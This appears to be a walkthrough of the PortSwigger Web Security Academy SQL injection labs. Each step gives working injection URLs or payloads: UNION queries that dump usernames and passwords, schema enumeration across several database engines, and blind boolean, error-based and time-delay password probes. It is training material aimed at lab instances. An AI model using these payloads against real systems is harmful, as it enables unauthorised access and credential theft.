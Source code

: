 SQL injection cheat sheet from PortSwigger: https://portswigger.net/web-security/sql-injection/cheat-sheet

1. Injection url at `https://ac881f2e1f5cb550c093b68c00e60083.web-security-academy.net/filter?category=Accessories%27%20OR%201=1--`
2. Sign in with the username `administrator-- ` and any password
3. By injecting `ORDERY BY` clauses, can determine that there are 3 columns being returned. Final injection url is `https://ac2f1fdf1e3f17fbc0a75a57003900e4.web-security-academy.net/filter?category=Accessories%27%20UNION%20SELECT%20NULL,NULL,NULL--`
4. Using above, there are 3 columns again. By individually changing out the `NULL`s in above injection url with `'a'`, can find that the 2nd parameter is compatible with strings. Final injection url is `https://ac8a1fba1f703e4bc0be397e000800dc.web-security-academy.net/filter?category=Accessories%27%20UNION%20SELECT%20NULL,%27Nk9mcJ%27,NULL--` for my provided random string of `Nk9mcJ`
5. Discovered using previous methods that there are 2 columns, each of which contains strings. Final injection url is `https://ac4e1faa1f86dd2ac04803a200c5007f.web-security-academy.net/filter?category=Accessories%27%20UNION%20SELECT%20username,%20password%20FROM%20users--`. This dumps user credentials that can then be used to sign into the `administrator` account
6. This lab is the same as above, with 2 columns that both can accept strings. From the lab title, we know that the SQL server is running Oracle SQL, so the final injection url is `https://aca81ff91ed5fbc1c09e023600020089.web-security-academy.net/filter?category=Accessories%27%20UNION%20SELECT%20banner,NULL%20FROM%20v$version--`
7. This lab is the same as the above, but running either Microsoft SQL or MySQL. The following injection url works in either case `https://ac0d1f6d1e91ef7fc0fa9a35002900d5.web-security-academy.net/filter?category=Lifestyle%27UNION%20SELECT%20@@version,NULL--%20`
8. This lab has the same setup as above, but the only thing known about the SQL server is that it's not Oracle. To get a dump of the table names, the following injection can be used `https://ac251f8a1fc71a32c0e0893800580088.web-security-academy.net/filter?category=Accessories%27UNION%20SELECT%20table_name,NULL%20FROM%20information_schema.tables--%20`. Using the retrieved user table name, the column names can be retrieved via `https://ac251f8a1fc71a32c0e0893800580088.web-security-academy.net/filter?category=Accessories%27UNION%20SELECT%20column_name,NULL%20FROM%20information_schema.columns%20WHERE%20table_name=%27users_msjjll%27--%20`. This allows the user's table to be dumped with the following `https://ac251f8a1fc71a32c0e0893800580088.web-security-academy.net/filter?category=Accessories%27UNION%20SELECT%20username_hogyer,password_iublmj%20FROM%20users_msjjll--%20`. Using the dumped credentials, you can then sign in as the `administrator` user to solve the lab
9. This lab is the same as the above but running Oracle SQL. The following injection urls are used instead to account for this difference:
	* Retrieve table names: `https://ac121f491e6506ecc0c8010800ae00d5.web-security-academy.net/filter?category=Accessories%27%20UNION%20SELECT%20table_name,NULL%20FROM%20all_tables--`
	* Retrieve column names: `https://ac121f491e6506ecc0c8010800ae00d5.web-security-academy.net/filter?category=Accessories%27%20UNION%20SELECT%20column_name,NULL%20FROM%20all_tab_columns%20WHERE%20table_name=%27USERS_SILFLI%27--`
	* Dump credentials: `https://ac121f491e6506ecc0c8010800ae00d5.web-security-academy.net/filter?category=Accessories%27%20UNION%20SELECT%20USERNAME_ZZWZAI,PASSWORD_HRKZKT%20FROM%20USERS_SILFLI--`
10. Can find that there are 2 columns returned, and only the 2nd one is compatible with strings. Based off what commands work, the server appears to be using PostgreSQL. Final injection url `https://acc01f5b1f89a225c15b21b300a10020.web-security-academy.net/filter?category=Lifestyle%27UNION%20SELECT%20NULL,username%20||%20%27:%27%20||%20%20password%20FROM%20users--`
11. If the tracking ID query has a response, there is a `Welcome back!` message between the `Home` and `My Account` links. To figure out the length of the admin password, the following tracking ID can be used (and modified until no longer returning true) `JhGf5QQKPyCq5Y1X' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password) > 1) = 'a`. This reveals that the password is 20 characters long. For the sake of simplicity with the brute force, we will assume that the password matches the regex `[0-9a-z]{20}`, and the brute force is done by `cond_resp.py` (Note that this takes a while. Due to the case insensitivity of SQL, binary search is difficult so I just relied on a straight brute force)
12. By using the following injection in the tracking ID, the length of the admin password can be found as 20 characters again `<id>' AND (SELECT CASE WHEN (LENGTH(password) = 20) THEN to_char(1/0) ELSE 'a' END FROM users WHERE username='administrator')='a`. This is shown because there will be an internal server error whenever the provided case is true, and none if the case is false. From there the same brute force from above can be modified to work, as shown in `cond_error.py`
13. Through trial and error, it can be found that the server is running PostgreSQL. The following tracking id payload causes the 10 second delay to solve the lab `<id>'||pg_sleep(10)--`
14. Same as above, it can be found that the server is running PostgreSQL. The following payload can be used to determine that the length of the admin password is 20 characters `<id>'%3bSELECT CASE WHEN (username='administrator' AND LENGTH(password) < 20) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--` (note that `%3b` is a url-encoded semicolon. It has to be encoded because semicolons are the way cookies are separated from each other in the HTTP spec). From there, the previous brute forces can be modified to use time delays, as shown in `cond_delay.py`
15. This lab requires triggering an out of band DNS lookup. However, the lab server blocks outgoing requests that are not going to the Burp Collaborator domain, so this lab is not possible without using Burpsuite Pro
16. Same as above lab, but this time for exfiltrating data

